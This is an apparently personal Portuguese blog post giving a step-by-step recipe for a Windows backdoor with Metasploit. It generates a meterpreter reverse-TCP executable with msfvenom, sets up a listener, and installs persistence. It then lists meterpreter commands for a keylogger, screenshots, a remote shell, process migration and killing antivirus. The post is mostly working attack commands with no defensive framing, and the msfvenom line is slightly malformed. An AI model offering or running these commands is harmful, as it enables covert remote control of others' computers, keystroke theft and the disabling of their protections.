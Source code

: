 ```yaml
---
layout: post
title: Criando BackDoor no Windowns
date: 2016-07-11T12:16:44.000Z
---
```

<img src='/images/fulls/backdoor-01.jpg'>

-Comandos para criar a backdoor:
#msfvenom -p windows/meterpreter/reverse_tcp 192.168.0.104LHOST=(SeuIP) LPORT=443 -f exe > /root/Desktop/shell.exe 

-Comandos para configurar o modo Listening:
#msfconsole
#use exploit/multi/handler
#set payload windows/meterpreter/reverse_tcp
#set lhost (Seu IP)
#set lport 443

exploit

-Comando manutenção de acesso:

#run persistence -A -X -i 60 -p 443 -f (Seu IP)

Comandos do  meterpreter pra brinca 

Para obter ajuda das funções do Meterpreter.
meterpreter > help 

Para finalizar a sessão e sair do Meterpreter.
meterpreter > exit

Ás vezes sera necessauro manter a sessão ativa do Meterpreter  para outras finalidades ,para usar um modulo auxiliar por exemplo.
metrpreter > background

Migrar para outro processo:
meterpreter > run migrate -f

Obter shel.
meterpreter > shell

Executar um arquivo .
execute -f calc.exe

Keylogger.

meterpreter > keyscan_start INICIA O KEYLOGGER
meterpreter > keyscan_dump EXIBE AS TECLAS DIGITADAS
meterpreter > keyscan_stop FINALIZA O KEYLOGGER

Captura de tela.

meterpreter > screenshot

Finalizar processo de antivirus.

meterpreter > run killav

<a href="https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/">Mais comandos.</a>


